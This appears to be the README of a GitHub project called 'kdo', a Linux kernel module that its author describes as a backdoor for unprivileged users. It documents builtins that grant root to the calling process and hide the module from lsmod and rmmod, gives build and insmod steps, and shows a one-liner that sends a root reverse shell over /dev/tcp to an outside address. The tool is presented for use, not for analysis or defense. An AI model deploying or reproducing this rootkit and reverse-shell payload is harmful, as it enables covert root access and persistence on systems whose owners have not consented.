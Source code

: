 kdo
===
Kernel sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users. Apart from command execution, other useful builtins are implemented as well.
Whatever wlse that is written to the character device will be ignored, so feel free to modify the
default builtin strings to have something like a poor man's authentication mechanism.


Builtin Commands
----------------
- `kdo-su` \
Grant root privileges to the current process (set all uids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.

- `kdo-exec [argv]` \
Execute [argv] via call_usermodehelper.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Some options can be set in `src/include/config.h`, such as the name of the created device (`kdo` by
default) and enabling logging (disabled by default).


Usage
-----
Simply write to `/dev/kdo`. Because the module treats anything (apart from builtins) as a last
argument for `/bin/sh -i -c`, redirection and other shell functionalities are supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:
```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
